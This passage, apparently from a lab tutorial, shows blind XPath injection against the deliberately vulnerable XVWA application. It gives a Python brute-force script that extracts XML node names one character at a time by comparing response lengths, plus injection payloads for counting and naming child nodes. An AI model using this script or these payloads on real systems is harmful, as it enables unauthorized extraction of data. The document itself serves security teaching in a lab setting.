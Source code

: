 ```python
# Global variables
main_url = "http://192.168.50.122/xvwa/vulnerabilities/xpath/"
characters = string.ascii_letters

def xPathInjection():
        data = ""

        p1 = log.progress("Brute force")
        p1.status("Starting brute force attack")

        time.sleep(2)

        p2 = log.progress("Data")
        for position in range(1, 8):
            for character in characters:
                post_data = {
                    'search': "1' and substring(name(/*[1]),%d,1)='%s" % (position, character),
                    'submit': ''
                }
                
                r = requests.post(main_url, data=post_data)
                
                if len(r.text) != 8681:
                    data += character
                    p2.status(data)
                    break

        p1.success("Brute force attack ended")
        p2.success(data)

if __name__ == '__main__':
    xPathInjection()
```

With this we have been able to take out the first and only "*primary*" tag of the *XML* file, which is called *Coffees*, so it would look like this:

```xml
<Coffees>
</Coffees>
```

Now we must enumerate the *number of labels* that exist inside the previous discovered label:

```bash
search=1' and count(/*[1]/*)='10&submit=
```

In this case we have *10* tags nested inside the previous one.

The next step would be to find out what is the value of each of the labels, we would follow the logic of the previous example with this syntax:

```bash
# In this case we are telling it that inside the first label (expressed with [1]) and it's first sub-label (expressed with [1] agan), we are going to keep the first character, and if this is "C", it will show us the information, if not, it will not
search=1' and substring(name(/*[1]/*[1]), 1, 1)='C&submit=
```
